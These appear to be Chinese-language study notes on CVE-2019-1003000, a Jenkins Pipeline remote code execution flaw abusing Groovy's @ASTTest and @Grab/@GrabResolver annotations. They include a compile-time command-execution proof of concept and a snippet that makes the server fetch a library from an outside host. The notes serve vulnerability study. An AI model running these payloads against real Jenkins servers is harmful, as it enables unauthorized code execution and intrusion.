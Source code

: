 # CVE-2019-1003000

具体的直接看orange的好啦，讲得很棒



## Pipeline

> 大部分開發者會選擇 Jenkins 作為 CI/CD 伺服器的其中一個原因是因為 Jenkins 提供了一個很強大的 Pipeline 功能，使開發者可以方便的去撰寫一些 Build Script 以完成自動化的編譯、測試及發佈! 你可以想像 Pipeline 就是一個小小的微語言可以去對 Jenkins 進行操作(而實際上 Pipeline 是基於 Groovy 的一個 DSL)



## Meta-Programming

元编程，也称作超编程，是指某类计算机程序的编写。这类计算机程序编写或者操纵其它程序（或者自身）作为它们的数据，或者在运行时完成部分本应在编译时完成的工作。多数情况下，与手工编写全部代码相比，程序员可以获得更高的工作效率，或者给与程序更大的灵活度去处理新的情形而无需重新编译。







Pipeline是基于Groovy的一个DSL，而Groovy刚好是对于Meta-Programming非常友善的语言。



**@groovy.transform.ASTTest**

> `@ASTTest` is a special AST transformation meant to help debugging other AST transformations or the Groovy compiler itself. It will let the developer “explore” the AST during compilation and **perform assertions on the AST** rather than on the result of compilation. This means that this AST transformations gives access to the AST before the bytecode is produced. `@ASTTest` can be placed on any annotable node and requires two parameters:



本地验证：

```
this.class.classLoader.parseClass('''
@groovy.transform.ASTTest(value={
    assert java.lang.Runtime.getRuntime().exec("touch pwned")
})
def x
''');
```

结果：

```
$ ls
poc.groovy

$ groovy poc.groovy
$ ls
poc.groovy  pwned
```



在jenkins上复现：

```
unable to resolve class org.jenkinsci.plugins.workflow.libs.Library
```





**@Grab**

Grape(`@Grab`) 是一個 Groovy 內建的動態 JAR 相依性管理程式! 可讓開發者動態的引入不在 classPath 上的函式庫!

语法如下：

```
@Grab(group='org.springframework', module='spring-orm', version='3.2.5.RELEASE')
import org.springframework.jdbc.core.JdbcTemplate
```



**@GrabResolver**

```
@GrabResolver(name='restlet', root='http://maven.restlet.org/')
@Grab(group='org.restlet', module='org.restlet', version='1.1.6')
import org.restlet
```



```
this.class.classLoader.parseClass('''
@GrabResolver(name='restlet', root='http://orange.tw/')
@Grab(group='org.restlet', module='org.restlet', version='1.1.6')
import org.restlet
''')
```



透過 Grape 可以讓 Jenkins 引入惡意的函式庫







## Reference

http://groovy-lang.org/metaprogramming.html

https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html

https://devco.re/blog/2019/02/19/hacking-Jenkins-part2-abusing-meta-programming-for-unauthenticated-RCE/